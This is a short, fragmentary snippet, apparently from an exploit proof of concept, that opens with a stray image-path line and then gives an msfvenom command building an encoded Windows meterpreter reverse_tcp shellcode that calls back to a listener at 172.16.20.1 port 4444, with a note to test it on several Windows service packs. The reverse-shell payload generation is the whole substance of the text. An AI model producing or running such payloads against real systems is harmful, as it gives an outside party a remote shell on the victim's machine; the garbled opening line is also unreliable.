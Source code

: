msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=172.16.20.1 LPORT=4444 >shellcode

Test on 
SP1
SP2
SP3 English

